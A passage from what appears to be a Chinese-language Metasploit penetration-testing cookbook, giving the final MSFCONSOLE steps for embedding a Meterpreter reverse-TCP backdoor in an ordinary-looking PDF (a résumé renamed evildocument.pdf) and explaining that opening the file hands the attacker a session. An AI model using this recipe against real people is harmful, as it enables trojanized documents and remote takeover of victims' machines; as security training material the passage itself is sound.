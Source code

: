     ![](../img/60dad84ca66f77e6a5ca4258c1e01e23.png)

6.  设置我们想要生成的 PDF 文件名称：

    ```
    set FILENAME evildocument.pdf
    ```

7.  设置 INFILENAME 选项。它是你打算使用的 PDF 文件的位置。这里，我使用桌面上的简历。

    ```
    set INFILENAME /root/Desktop/willie.pdf
    ```

    > 要注意，这个模块的所有选项都是可选的，除了`INFILENAME`。

8.  执行漏洞利用：

    ```
    Exploit
    ```

    ![](../img/d7db58f70bbeafd627a7a49ed73ec05c.png)

### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 创建了包含 Meterpreter 后门的 PDF 文件。我们以启动控制台并搜索所有可用的 PDF 漏洞来开始。在选择 PDF 内嵌模块之后，我们设置选项并执行漏洞利用，这让我们在正常的 PDF 中埋下后门程序。Metasploit 会生成带有 Windows 反向 TCP 载荷的 PDF。当你的目标打开 PDF 文件时，Meterpreter 会开启答复并激活会话。

## 6.10 实现 browser_autopwn

